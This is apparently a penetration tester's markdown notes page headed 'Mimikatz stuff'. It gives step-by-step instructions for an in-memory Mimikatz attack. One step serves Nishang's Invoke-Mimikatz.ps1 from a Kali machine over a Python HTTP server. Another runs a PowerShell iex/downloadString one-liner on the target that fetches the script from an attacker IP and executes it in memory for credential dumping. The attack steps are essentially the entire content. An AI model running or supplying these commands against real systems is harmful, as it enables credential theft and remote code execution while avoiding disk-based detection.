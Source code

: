 # Introduction

Mimikatz stuff

# Contents

[[_TOC_]]

# Mimikatz PowerShell In-memory attack

## Attack machine

1. On Kali find `.ps1` script here: `/usr/share/nishang/Gather/Invoke-Mimikatz.ps1`
1. Serve it from the Kali machine:

    ```bash
    cd /usr/share/nishang/Gather/
    python3 -m http.server 80
    ```

## Target machine

1. Download and execute in memory (from PowerShell) (__TODO: Get PS Version needed__):

    ```bat
    iex(New-Object net.WebClient).downloadString("http://<attacker_ip>/Invoke-Mimikatz.ps1")
    ```

1. The previous command will download and load the module in memory. You should now be able to run `Invoke-Mimikatz` on the PowerShell command line.
